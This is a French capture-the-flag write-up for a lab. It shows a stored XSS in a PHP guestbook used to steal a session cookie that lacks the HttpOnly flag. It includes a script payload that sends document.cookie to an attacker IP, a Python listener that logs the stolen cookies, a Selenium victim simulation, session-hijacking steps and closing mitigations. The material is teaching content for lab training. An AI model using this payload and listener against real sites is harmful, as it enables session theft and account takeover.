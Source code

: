 ```yaml
---
title: 2/ CWE-79 et CWE-1004 - Stored XSS & Vol de Cookie
next: "/write-ups/wu3"
prev: "/write-ups/wu1"
---
```


# 🏰 Stored XSS & Vol de Cookie - Livre d'Or de Lannisport

## 🎯 Objectif
John doit voler le **cookie de session d’un garde** pour accéder à Castral-Roc.
Pour cela, il injecte un **XSS stocké** dans le **livre d’or** afin de récupérer le cookie **non protégé par HttpOnly**.

**Flag attendu :** Le cookie de session du garde.

---

## ⚙️ Environnement
- **Cible :** `lannisport.south`
- **Page vulnérable :** `livre_dor.php`
- **Langage :** PHP / JavaScript

---

## 🚀 Étape 1 : Injecter un XSS dans le livre d’or
Le formulaire du livre d’or **ne filtre pas les entrées**, permettant d’injecter un script malveillant.

🔹 **Script XSS à injecter dans un commentaire** :
```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://10.10.10.20:8000/?cookie=' + document.cookie, true);
    xhr.send();
</script>
```

📌 **Effet** : Quand un garde consulte la page, son cookie de session est envoyé à l’attaquant.

---

## 🔍 Étape 2 : Capturer le cookie sur Kali
L’attaquant met en place un **serveur d’écoute** pour récupérer les cookies volés.

🔹 **Script Python sur Kali** :
```python {filename="capture_server.py"}                                                                
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/plain")
        self.send_header("Access-Control-Allow-Origin", "*")  # Permet les requêtes CORS
        self.end_headers()

        if "cookie=" in self.path:
            cookie = self.path.split("cookie=", 1)[1]  # Prend toute la valeur du cookie après "cookie="
            cookie = urllib.parse.unquote(cookie)  # Décode les caractères URL-encoded (%3D devient =)
            print(f"Cookie volé : {cookie}")
            with open("stolen_cookies.txt", "a") as f:
                f.write(cookie + "\n")

if __name__ == "__main__":
    server_address = ('10.10.10.20', 8000)  # IP Kali
    httpd = HTTPServer(server_address, Handler)
    print("Serveur en écoute sur le port 8000...")
    httpd.serve_forever()
```
*Veuillez changer l'**IP** en fonction de celle mise sur Kali*

📌 **Démarrer le serveur d’écoute sur Kali** :
```bash
python3 capture_server.py
```

---

## 🚀 Étape 3 : Déclencher l’attaque avec Selenium
Un **script Selenium** simule la navigation d’un garde qui consulte le livre d’or.

🔹 **Script Selenium (Victime - Ubuntu Desktop)** :
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

driver = webdriver.Chrome()
driver.get("http://lannisport.south/login.php")

driver.find_element(By.NAME, "username").send_keys("garde")
driver.find_element(By.NAME, "password").send_keys("password")
driver.find_element(By.NAME, "submit").click()

time.sleep(3)
driver.get("http://lannisport.south/livre_dor.php")
time.sleep(10)

driver.quit()
```
📌 **Quand Selenium exécute ce script, il déclenche le XSS et envoie le cookie à Kali.**

---

## 🎯 Étape 4 : Validation du Flag
✅ **Kali reçoit le cookie de session** :
```bash
cat stolen_cookies.txt
```

✅ **Utilisation du cookie volé pour usurper la session du garde** :
- Ouvrir les outils développeur (`F12`) > **Application** > **Cookies**.
- Modifier `PHPSESSID` avec la valeur capturée.
- Recharger la page.

**🚀 Succès ! L’attaque est réalisée et le flag récupéré !** 🔥

---

## 🔒 Mitigation & Sécurisation
- **Activer `HttpOnly` sur les cookies** pour empêcher l’accès JavaScript.
- **Filtrer les entrées utilisateur** (`htmlspecialchars()`) pour empêcher le XSS.
- **Utiliser CSP (Content Security Policy)** pour bloquer les scripts inline.

---

## 🏆 Conclusion
- **Un XSS stocké a été exploité pour voler un cookie de session.**
- **Le serveur d’écoute Kali a capturé le flag.**
- **L’attaque est réussie !** 🚀🔥
